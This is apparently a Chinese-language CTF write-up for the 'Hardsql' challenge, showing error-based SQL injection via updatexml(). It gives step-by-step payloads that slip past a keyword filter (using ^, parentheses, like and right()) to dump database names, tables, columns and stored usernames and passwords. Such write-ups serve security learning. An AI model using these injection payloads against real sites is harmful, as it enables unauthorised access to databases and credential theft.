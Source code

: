 # Hardsql
## 考察知识点：
### 1.报错注入
### 2.bypass能力
### 3.过滤关键字替换

题目提示报错注入，登陆框输入admin'&password'

![image](images/07DFC29872DC41DDA97FBD60C034F91FHardsql1.png)

自己本地sql语句测试：

![image](images/371EC467CF8141B0A91DC61ED9FFC3A2Hardsql2.png)

所以推测后台sql查询语句为：`username='admin' and password='password'`

## 测试过滤那些符号：
### 1.页面三种返回，报错，密码错误，和警告语句（你可别被我逮住了，臭弟弟）
### 2.推测警告语句即被waf检测了


![image](images/623271FC1D234D09A9E9DCE971E6430BHardsql3.png)

发现过滤了：and及其替换符号，union,但是updatexml没有过滤，and还可以使用^来代替

payload:`?username=admin&password=pass'^updatexml(1,concat(0x7e,(select database()),0x7e),1)`

发现还是被waf拦截：

payload:`?username=admin&password=pass'^updatexml(1,concat(0x7e,(select( database())),0x7e),1)`

![image](images/2DDAA2DEB6AC4F59B5892C7388225C3CHardsql4.png)

爆出数据库，说明空格也被拦截了。此处使用（）来绕过空格限制

#### 爆库：

`?username=admin&password=pass'^updatexml(1,concat(0x7e,(select(SELECT(group_concat(schema_name))from(information_schema.SCHEMATA))),0x7e),1)`

![image](images/692EB09956304BBF8D51D23711F85767Hardsql5.png)

但是updataxml()有长度限制，只显示32位，此时可使用substr()函数来截断显示，但是被过滤了...然后想到还可以使用right()来让返回数据从右边开始显示

paylaod:`?username=admin&password=pass'^updatexml(1,concat(0x7e,right((select(SELECT(group_concat(schema_name))from(information_schema.SCHEMATA))),30),0x7e),1)%23`

![image](images/1791E1E0D39647359B5BEDC0235D163FHardsql6.png)

后面的数据库名也被爆了出来，此时重点关注geek数据库

#### 爆表
payload:
`username=admin&password=pass'^updatexml(1,concat(0x7e,right((select(SELECT(group_concat(table_name))from(information_schema.tables)where(table_schema)like'geek')),30),0x7e),1)%23`

=等号被过滤了，这里可以使用like来绕过

![image](images/D5AB3B6F46164BDEA8BC6402C855E88BHardsql7.png)

#### 爆字段
payload:
`username=admin&password=pass'^updatexml(1,concat(0x7e,right((select(SELECT(group_concat(column_name))from(information_schema.columns)where(table_name)like'H4rDsq1')),30),0x7e),1)%23`

![image](images/13FE09DBFDA84D3F87EA50E830120B01Hardsql8.png)

#### 爆字段数据
payload:
`username=admin&password=pass'^updatexml(1,concat(0x7e,right((select(SELECT(group_concat(username,password))from(H4rDsq1))),30),0x7e),1)%23`

![image](images/6654676ABACC48CC89C8B772F43FE931Hardsql9.png)